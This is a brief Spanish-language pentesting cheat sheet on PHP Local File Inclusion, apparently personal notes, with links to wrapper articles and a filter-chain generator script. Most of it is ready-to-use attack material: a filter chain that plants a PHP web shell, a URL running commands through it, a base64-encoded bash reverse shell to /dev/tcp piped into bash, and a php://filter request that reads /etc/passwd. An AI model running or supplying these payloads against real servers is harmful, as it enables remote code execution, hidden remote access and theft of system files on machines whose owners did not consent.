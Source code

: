 ```yaml
---
title : LFI (Local File Inclusion)
published : True
---
```

* <p> LFI : <a href="https://deephacking.tech/local-file-inclusion-lfi-web/">Local File Inclusion</a></p>
* <p>Local File Inclusion wrappers : <a href="https://deephacking.tech/php-wrappers-pentesting-web/">Wrappers</a></p>
* <p>Lfi exploit filter convert .ico : <a href="uploads/php_filter_chain_generator.py" download="php_filter_chain_generator.py">php_filter_chain_generator.py</a></p>


```bash
	python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`;?>'

```
* <p>Lo que nos permite un Shell con el parámetro indicativo 0 es decir:<br> <font color="red">http://10.10.10.10/login.php?0=whoami&file=//{chain generator}</font></p>
<br>
* <p> también podemos hacernos una <font color="red">web Shell</font> como parámetro, pero para no dar conflictos en cabeza a la url por la codificación, tendría que estar en base64.</p>
<br>

```bash
$ echo "/bin/bash -i >& /dev/tcp/{IP}/{PORT} 0>&1" | base64 
 L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK

```
<p>Luego los parámetros a pasar por la url ya serian como :</p>
<br>
```bash
	echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK" | base64 -d|bash

```

* <p><font color="red">Wraper de codificación en base64</font> para la lectura de un archivo.</p>

```bash
	http://10.10.10.10/login.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

```

